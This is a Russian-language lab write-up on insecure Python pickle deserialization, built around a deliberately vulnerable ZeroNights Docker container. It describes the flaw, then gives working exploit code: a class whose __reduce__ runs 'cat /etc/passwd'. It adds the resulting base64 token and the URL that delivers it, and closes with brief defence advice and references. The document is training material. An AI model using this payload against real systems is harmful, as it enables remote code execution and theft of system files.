 # Deserialization (Python) 

# Описание

Сериализация -- процесс перевода какой-либо структуры данных в последовательность бит, пригодную для хранения в файлах или передачи данных по сети. Десериализация -- процесс восстановления начального состояния структуры из последовательности. 

# Уязвимость 

В качестве объекта для сериализации можно записать пользовательские данные, которые могут вызвать выполнение методов из уязвимых библиотек. С помощью уязвимых библиотек можно выполнить произвольный код. При этом стоит учитывать, что можно сериализовать только данные, но не код.

# Детектирование 




# Уязвимый сервис

## Развертывание

Собираем и запускаем [докер контейнер](https://github.com/GrrrDog/ZeroNights-WebVillage-2017/tree/master/pydeser). 
В данном примере уязвимый сервис будет находиться на http://picle.lab

## Обзор

Сервис имеет следующий функционал:
1. set your name, например http://pickle.lab/?name=pwn.pas
2. "Посмотреть на себя", например http://127.0.0.1:9090/pydeser?sess=Y2NvcHlfcmVnCl9yZWNvbnN0cnVjdG9yCnAwCihjbWFpbgpVc2VyCnAxCmNfX2J1aWx0aW5fXwpvYmplY3QKcDIKTnRwMwpScDQKKGRwNQpTJ2lkJwpwNgpJNzEzNjMKc1MnbmFtZScKcDcKVnB3bi5wYXNzCnA4CnNiLg==

# Эксплуатация

## Шаг 1

Используем следующий код для генерации серелиазованного объекта

```python
import cPickle
import base64

class Evil(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.check_output, (('cat', '/etc/passwd',),))

e = Evil()
evil_token = base64.b64encode(cPickle.dumps(e))
print "Your Evil Token : %s" % (evil_token, )
```

Результат:

```
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigoUydjYXQnCnAyClMnL2V0Yy9wYXNzd2QnCnAzCnRwNAp0cDUKUnA2Ci4=
```

## Шаг 2

Переходим на http://pickle.lab/pydeser?sess= и для параметра sess подставляем полученный объект на шаге 1

`http://pickle.lab/pydeser?sess=Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigoUydjYXQnCnAyClMnL2V0Yy9wYXNzd2QnCnAzCnRwNAp0cDUKUnA2Ci4=`

Результат

![](img/pickle_1.png)

# Защита

1. Не десериализовать объекты из недоверенных источников.
2. Запретить пользователям загрузку объектов для десериализации.

# Ущерб

Подмена объекта десериализации потенциально может привести к удалённому выполнению кода на сервере.


# Ссылки

Docker container: https://github.com/GrrrDog/ZeroNights-WebVillage-2017/tree/master/pydeser

Материалы:
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20deserialization/Python.md
- https://docs.python.org/2/library/pickle.html#pickling-and-unpickling-extension-types
- https://habr.com/ru/post/186608/
- http://qaru.site/questions/1650451/how-reduce-function-exactly-works-in-case-of-pickle-module
- https://github.com/f47h3r/exploit_code/blob/master/graphite_pickle_exploit.py
